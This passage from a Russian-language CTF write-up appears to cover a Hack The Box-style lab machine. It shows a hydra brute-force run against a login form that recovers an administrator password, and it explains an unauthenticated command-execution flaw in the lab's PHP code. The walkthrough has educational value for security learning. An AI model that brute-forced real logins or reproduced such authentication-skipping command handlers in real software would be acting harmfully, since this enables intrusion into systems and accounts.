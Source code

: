 ```text
root@kali:~# hydra -V -t 4 -f -I -L /usr/share/seclists/Usernames/top-usernames-shortlist.txt -P passwords.lst 'dead:beef:0000:0000:0250:56ff:feb9:7caa' http-form-post '/login.php:user=^USER^&password=^PASS^:Sorry, those credentials do not match'
Hydra v8.8 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2019-04-04 23:33:58
[DATA] max 4 tasks per 1 server, overall 4 tasks, 34 login tries (l:17/p:2), ~9 tries per task
[DATA] attacking http-post-form://[dead:beef:0000:0000:0250:56ff:feb9:7caa]:80/login.php:user=^USER^&password=^PASS^:Sorry, those credentials do not match
...
[80][http-post-form] host: dead:beef:0000:0000:0250:56ff:feb9:7caa   login: administrator   password: trickeryanddeceit
[STATUS] attack finished for dead:beef:0000:0000:0250:56ff:feb9:7caa (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2019-04-04 23:34:00
```

## RCE без авторизации
Забавно, но я только после прохождения осознал, что команды в Command Execution Panel можно выполнять и без авторизации.

Если посмотреть на исходники `/var/www/html/index.php`:
```php
<?php

session_start();

require 'database.php';

if( isset($_SESSION['user_id']) ){
    ...
}

...

if(isset($_POST['command'])) {
    ...
}

?>
```

То становится очевидно, почему так: ветка `if(isset($_POST['command']))` не требует авторизации :sweat_smile:

То есть можно было не париться о кукисах в наших bash-скриптах [здесь]({{ page.url }}#фильтрация-команд) и [здесь]({{ page.url }}#1-й-способ-homelokicredentials). Узнать об этом *до* pwn'а пользователя можно было брутом параметров запроса с помощью `wfuzz`, например.

## WAF
Посмотрим, как устроен механизм фильтрации команд Command Execution Panel.


[//]: # (2019-08-20)
